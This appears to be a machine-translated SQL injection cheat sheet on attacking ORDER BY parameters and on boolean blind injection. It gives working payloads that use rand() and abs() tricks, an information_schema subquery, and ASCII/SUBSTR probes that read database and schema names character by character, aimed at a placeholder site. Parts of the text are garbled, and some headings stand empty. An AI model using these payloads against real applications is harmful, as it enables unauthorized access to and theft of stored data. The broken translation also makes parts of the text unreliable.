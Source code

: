 Detection method
Generally with oder or orderby variables is likely to be such an injection, when you know a field can be injected as follows:
Original link: http://www.test.com/list.php?order=vote Sort according to the vote field.

Find the largest number of votes to vote num Then construct the following link to see whether the sort of change. :
list.php?order=abs(vote-(length(user())>0)*num)+asc

Another method does not need to know any field information, use the rand function:
list.php?order=rand(true)
list.php?order=rand(false)
The above two will return a different sort.
payload

The statement to determine whether the first character in the table name is less than 128 is as follows:
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
Error injection
Blind betting
Blind scene
In many cases, through the previous test will find the page did not echo the extracted data, but depending on whether the statement is executed successfully or not, there will be some corresponding changes.
The correct / wrong statement makes the page have a moderate change. You can try using Boolean injection
The correct statement returns the normal page, the wrong statement returns the common error page. You can try using Boolean injection.
Submit the wrong statement, does not affect the normal output of the page. Try using delayed injection.

Several simple sentences to judge, in the real need to change according to the situation:
CASE
IF ()
IFNULL ()
NULLIF ()
Boolean blinds - based on the response
Submit a logic statement to infer a bit of information. Because injection requires (general) character-by-character execution, scripts or tools (such as the burp suite) need to be used. The following is:
payload
// i 用于提取每一个位，j 用于判断其对应的ASCII码值的范围。
// k ，结合limit，选择偏移为k的行
// **中可以填上其他的select语句，比如查询表名，列名，数据。一次类推。
// SUBSTR() 也可以换成 SUBSTRING()

' OR (SELECT ASCII(SUBSTR(DATABASE(),i,1) ) < j) #

' OR (SELECT ASCII(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) ) < j) #  

' OR (SELECT SUBSTR(DATABASE(),i,1) < j) #

' OR (SELECT SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j) #  
